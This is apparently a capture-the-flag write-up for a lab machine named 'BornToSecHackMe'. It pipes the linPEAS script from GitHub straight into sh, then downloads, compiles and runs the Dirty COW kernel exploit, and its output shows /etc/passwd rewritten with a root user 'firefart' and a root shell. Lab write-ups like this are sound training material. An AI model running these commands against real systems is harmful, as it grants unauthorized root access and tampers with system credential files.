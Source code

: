 # WRITEUP 2

Once connected with ssh, we use `linPEAS`

`curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh`

We check result with `seachsploit` and find exploit on Linux Kernel version 3.2.0-91. One looks interesting `Dirty Cow`

`curl https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c > dirty.c`

`gcc -pthread dirty.c -o dirty -lcrypt`

```
./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
zaz@BornToSecHackMe:~$ su firefart
Password: 
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
```

We are root ! 

